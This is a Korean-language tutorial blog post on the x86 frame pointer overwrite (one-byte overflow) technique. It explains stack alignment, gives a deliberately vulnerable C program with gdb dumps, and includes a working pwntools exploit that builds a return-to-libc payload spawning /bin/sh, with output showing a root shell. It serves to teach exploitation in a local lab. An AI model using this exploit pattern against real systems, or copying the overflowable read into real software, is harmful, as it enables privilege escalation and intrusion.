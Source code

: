 ```yaml
---
layout: post
title: "x86 Frame Pointer Overwrite"
categories: Exploit Stack
---
```


Frame Poineter를 1byte 덮어써 코드의 흐름을 변경하는 기법. One-byte Overflow라고도 한다.

### **Stack Alignment**
x86-64 ABI는 16Byte Stack alignment가 필요하다.  
ABI와 호환되지 않는 환경에서 스택 공간을 제한해서 사용하기 위함. 

**Stack alignment at 4-byte boundary**

```
0x080485c7 <+0>:  push   ebp
0x080485c8 <+1>:  mov    ebp,esp
~
0x080485ea <+35>: leave 
0x080485eb <+36>: ret
``` 

**Stack alignment at 16-byte boundary** 
1. main() 함수가 시작되는 부분에서 이전 함수에서 사용하던 Frame Pointer를 Stack에 저장하기 전에 Stack alignment 수행 
1. main() 함수가 종료되는 부분에서 leave 명령 실행 전, ebp 레지스터에 저장된 주소에 0x4를 뺀 주소 값을 esp 레지스터에 저장 
1. Stack alignment 코드가 적용되면 ret 코드가 실행되기 전에 "lea esp,[ecx-0x4]" 명령에 의해 esp 레지스터가 변경됨 
1. ecx 레지스터의 값은 leave 코드가 실행되기전에 ebp 레지스터를 이용해 값을 저장하기 때문에 esp 레지스터의 값을 변경할 수 있음 

```
0x080485d3 <+0>: lea    ecx,[esp+0x4]
```

esp 레지스터에 저장된 값에 0x4를 더한 주소를 ecx에 저장

```
0x080485d7 <+4>: and    esp,0xfffffff0
```

esp 레지스터에 저장된 값과 0xfffffff0을 AND 연산한 값을 저장(0xffffd59c & 0xfffffff0 = 0xffffd590) 이로 인해 Stack 주소가 16byte 경계에 맞춰짐

```
0x080485da <+7>: push   DWORD PTR [ecx-0x4]
```

stack에 [ecx-0x4]주소에 저장된 값 저장(main() 함수가 종료되고 되돌아갈 Return address)  
ESP 레지스터의 값이 leave 코드에 의해 변경되는 것이 아니라 lea esp,[ecx-0x4] 코드에 의해 변경된다.

## **Proof of Concept**

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o fpo fpo.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
  
void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 63);
}
  
void main(int argc, char *argv[]){
    if(argc<2){
        printf("argv error\n");
        exit(0);
    }
    vuln();
}
```

63byte를 입력받으면 ebp의 마지막 1byte가 overflow.

```
gdb-peda$ x/24wx 0xbfa07cfa(&buf)
0xbfa07cfa:	0x41414141	0x42424242	0x43434343	0x44444444
0xbfa07d0a:	0x45454545	0x46464646	0x47474747	0x48484848
```

&buf+4(0xbfa07cfe)의 마지막 byte(0xfe)를 EBP의 마지막 바이트에 삽입.

```
gdb-peda$ x/24x $ebp
0xbfa07d02:	0x43434343	0x44444444	0x45454545	0x46464646
0xbfa07d12:	0x47474747	0x48484848	0x80ecb70a	0x0002b7d2
```

mov ecx,DWORD PTR [ebp-0x4] 명령으로 0xbfa07cfe가 ecx 레지스터에 저장된다.  

```
gdb-peda$ x/24x $ecx-0x4
0x4242423e:	Cannot access memory at address 0x4242423e
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
p=process(['./fpo','AA'])

tmp = p.recvline().split(' ')[3]
printf = int(p.recvline().split(' ')[3],16)
buf = int(tmp,16)

print('buf    :%s'%hex(buf))
print('printf :%s'%hex(printf))

onebyte = int(tmp[8:11],16)
print('onebyte :%s'%hex(onebyte))

buf += 0x8
onebyte += 0x4

libBase = printf-0x4a670
system = libBase + 0x3bda0
binsh = libBase + 0x15ca0b
exit = libBase + 0x2f9d0

print('libBase :%s'%hex(libBase))
print('system :%s'%hex(system))
print('/bin/sh :%s'%hex(binsh))
print('exit :%s'%hex(exit))

exploit = p32(buf)
exploit += p32(system)
exploit += p32(exit)
exploit += p32(binsh)
exploit += "x90"*(62-len(exploit))
exploit += p32(onebyte)

p.sendline(exploit)

p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/fpo# python expliot.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './fpo': pid 3107
buf    :0xbfb2019a
printf :0xb7e4b670
onebyte :0x9a
libBase :0xb7e01000
system :0xb7e3cda0
/bin/sh :0xb7f5da0b
exit :0xb7e309d0
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/01.Frame+Pointer+Overwrite%28One-byte+Overflow%29+-+x86](https://www.lazenca.net/display/TEC/01.Frame+Pointer+Overwrite%28One-byte+Overflow%29+-+x86)

